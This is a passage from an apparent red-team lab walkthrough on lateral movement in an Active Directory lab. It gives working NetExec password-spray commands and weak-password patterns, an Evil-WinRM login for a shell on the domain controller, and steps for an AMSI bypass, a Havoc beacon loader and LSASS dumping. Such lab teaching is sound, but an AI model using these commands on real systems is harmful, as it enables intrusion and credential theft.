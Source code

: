 # 6 - Lateral Movement
With the credentials recovered from secretsdump `or cracked from Kerberoasting`, we begin lateral movement:

# Password Spray & Weak Credential Exploitation

Password spraying is a low-noise, high-success technique that tests one password across many users, often exploiting common patterns and weak password policies.

## Usernames list
- Usernames were extracted based on the Havoc's BOF `domainenum` and have been saved for convenience at:
```
/home/kali/password_spray/usernames.txt
```

![image](https://github.com/user-attachments/assets/deeff09c-1623-4639-9b0e-6dfb33bff1ee)


## Password Policy
Before performing any password spray, it's critical to understand the domain's account lockout policy. Spraying without this knowledge can trigger 
- Account lockouts
- User complaints
- Blue team alerts
- Immediate detection of your presence

The Havoc's BOF `dcenum`, which we already used on basic enumeration, can help us to check the Domain Password Policy:

![image](https://github.com/user-attachments/assets/f52a30cd-5351-4db4-8127-5154f088b5c3)


# Common Password Patterns
Many users follow predictable patterns when creating passwords. Some of the most abusable formats include:
- 📆 MonthYear → March2024
- 🌤 SeasonYear → Summer2025!
- 📅 DayDate → Tuesday23!
- 💀 Leetspeak → L@bl0cal, P@ssw0rd123, Adm1n!2024

These are often overlooked by defenders but easily guessed by attackers.

- A password list `passwords.txt` with weak/common credentials was previously created and located at:
```
/home/kali/password_spray/passwords.txt
```

## Netexec 1 - One Password for All Users
Run a password spray using NetExec:
```bash
cd ~/password_spray/
netexec smb 10.10.X.10 -u 'usernames.txt' -p 'L@bl0cal' -d lab.local -t 5 --continue-on-success --dns-tcp --dns-server 10.10.X.10 --log one_for_all
```
> - Sweeps across the subnet using one weak password
> - Identifies any accounts that reused `L@bl0cal`
> - Ideal first strike — low risk of lockout

![image](https://github.com/user-attachments/assets/dc1f1de3-db2e-4ec0-a77a-8dec589ae5af)


## Netexec 2 - Matching username = password
Run a password spray using NetExec:
```bash
netexec smb 10.10.X.10 -u 'usernames.txt' -p 'usernames.txt' -d lab.local -t 5 --continue-on-success --dns-tcp --dns-server 10.10.X.10 --log password_equal_username
```
> - Tests each user with their own username as password
> - Example: jdoe:jdoe, admin:admin
> - Simple, effective, and surprisingly successful in many orgs

![image](https://github.com/user-attachments/assets/4d53a9b8-561d-40ef-ad1e-d9efa8b0e0e2)


## Netexec 3 - Full Spray with Password List
```bash
netexec smb 10.10.X.10 -u 'usernames.txt' -p 'passwords.txt' -d lab.local -t 5 --continue-on-success --dns-tcp --dns-server 10.10.X.10 --log pass_sweep
```
> - Tests each password in the list against every user
> - Be cautious of account lockout policies: `try to space attempts over time`

![image](https://github.com/user-attachments/assets/591afcfd-b95d-4e36-b7ea-76e538b39646)


Once done, you can confirm the results using `cat` and `grep` commands:
```bash
cat pass_weep | grep Pwn3d
```

![image](https://github.com/user-attachments/assets/07e8b1b2-0e0b-412d-aa21-d1e12f0aa8fe)

## Remote Shell via Evil-WinRM
For targets with `WinRM` enabled do:
```
evil-winrm -i 10.10.X.10 -u svc_exchange  -p 1q2w3e4r
```

Executing the command above, we gain shell access on the Domain Controller with a Full PowerShell session (high-integrity context).

Using [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) we can do:
- File upload/download
- Script execution
- Live command interaction

![image](https://github.com/user-attachments/assets/0fccb518-c85f-47a9-997c-49f8324487a1)


Let's deploy an elevated Havoc beacon on the Domain Controller server:
1. Execute the AMSI bypass script line-by-line
2. Deploy our obfuscated `.ps1` loader

This gave us a new high-privileged Beacon on the most critical asset in the network.

> - With a fully elevated Beacon now running on the Domain Controller, we gain access to native post-exploitation modules within Havoc, including BOFs like `nanodump`.  
> - Nanodump is a Beacon Object File that functions similarly to Mimikatz: it dumps the LSASS memory safely and stealthily, allowing credential extraction without touching the disk.  
> - However, since we've already performed a full `NTDS.dit` hash dump using Impacket's `secretsdump.py`, dumping LSASS again would be redundant.  

Still, it's important to note that `nanodump` works reliably from an elevated Beacon, and in scenarios without cert access or full hash dumps, it would be a powerful alternative to extract credentials in-memory.



